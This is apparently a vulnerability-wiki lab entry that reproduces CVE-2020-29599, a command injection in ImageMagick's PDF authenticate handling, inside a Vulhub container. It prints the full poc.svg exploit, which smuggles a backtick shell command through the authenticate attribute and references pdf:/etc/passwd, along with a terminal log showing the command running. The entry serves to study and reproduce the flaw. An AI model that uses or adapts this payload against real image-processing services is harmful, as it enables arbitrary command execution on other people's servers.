

# ImageMagick PDF密码位置命令注入漏洞 CVE-2020-29599

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：ImageMagick PDF authenticate委托处理
- 文献类型：命令注入复现实验
- 版本、权限及部署边界：Linux ImageMagick7.0.10-36；支持SVG/MSL/PDF与相关委托，进程权限可写目录；文列7.0.10-35..40/6.9.11-35..40
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. 关键不是单纯SVG解码，而是嵌套MSL/PDF authenticate进入命令构造，应保留多格式与policy.xml/委托前提
2. 日志convert断言崩溃后仍生成0wned，须区分命令先执行与转码成功；截图内容未视检
3. Vulhub启动目录/配置缺失，poc.svg相对自引用依赖工作目录；root只是测试身份非漏洞自动提权
4. 缺明确首修版本及厂商补丁链接，已有发现者原文与Vulhub样例可追溯；受影响范围需各分支核对

### 操作风险

日志convert断言崩溃后仍生成0wned，须区分命令先执行与转码成功；截图内容未视检

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文参考链接（未重新核验）：<https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html>
- 原文参考链接（未重新核验）：<https://github.com/vulhub/vulhub/blob/master/imagemagick/CVE-2020-29599/poc.svg>
- 原文参考链接（未重新核验）：<http://www.w3.org/2000/svg>
- 原文参考链接（未重新核验）：<http://www.w3.org/1999/xlink>
- 原始披露 URL 未确认；既有归档来源标签保留，不能替代原始公告

### 归档技术正文

## 漏洞描述

ImageMagick是一款使用量很广的图片处理程序，很多厂商都调用了这个程序进行图片处理，包括图片的伸缩、切割、水印、格式转换等等。研究者@insertScript 发现在Imagemagick 7.0.10-35到7.0.10-40、6.9.11-35 up到6.9.11-40处理PDF的过程中存在一处命令注入漏洞，通过构造好的SVG格式图片文件，即可在Imagemagick中注入任意命令。

参考链接：

- https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html

## 环境搭建

Vulhub直接执行如下命令进入安装了Imagemagick 7.0.10-36的Linux环境：

```
docker-compose run im bash
```

## 漏洞复现

进入`/tmp`目录，对[poc.svg](https://github.com/vulhub/vulhub/blob/master/imagemagick/CVE-2020-29599/poc.svg)进行格式转换，即可触发漏洞：

```
root@f200ec9e1c1e:/# cd /tmp/
root@f200ec9e1c1e:/tmp# ls
poc.svg
root@f200ec9e1c1e:/tmp# identify poc.svg
poc.svg SVG 700x700 700x700+0+0 16-bit sRGB 398B 0.000u 0:00.003
root@f200ec9e1c1e:/tmp# convert poc.svg poc.png
sh: 1: : Permission denied
convert: MagickCore/image.c:1168: DestroyImage: Assertion `image != (Image *) NULL' failed.
Aborted
root@f200ec9e1c1e:/tmp# ls
0wned  poc.svg
root@f200ec9e1c1e:/tmp
```

查看poc.svg文件内容：

```
root@a1b29c85d417:/tmp# strings poc.svg
```

poc.svg的内容如下：

```
<image authenticate='ff" `echo $(id)> ./0wned`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

此时命令`echo $(id)> ./0wned`已执行成功：




---

> 来源：Threekiii/Awesome-POC
